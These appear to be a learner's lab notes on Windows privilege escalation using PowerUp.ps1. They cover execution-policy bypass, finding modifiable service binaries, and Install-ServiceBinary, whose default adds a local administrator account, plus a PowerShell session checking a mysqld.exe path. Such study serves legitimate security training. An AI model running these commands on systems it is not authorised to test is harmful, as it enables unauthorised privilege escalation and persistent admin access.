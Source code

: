 Use
	`powershell -ep bypass`
	`.\PowerUp.ps1
	`Get-ModifiableServiceFile`
		the output shows what appears to be vulnerable
		shows file path
		the principle
		if we have perms to restart the service

AbuseFunction
	built-in function to replace the binary and restart it (if we have the permissions)
	default behavior
		creates user john:Password123!
		adds to local Administrators group
	`Install-ServiceBinary -Name 'mysql'`
		this is the syntax to use but we recieve an error
		service binary file not modifiable by current user
			but we have F access (full)
		Examine behavior to see why AbuseFunction is throwing an error
```
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```
Our investigation shows that we should never blindly trust or rely on the output of automated tools. However, PowerUp is a great tool to identify potential privilege escalation vectors, which can be used to automatically check if the vulnerability can be exploited


##### DLL Hijacking
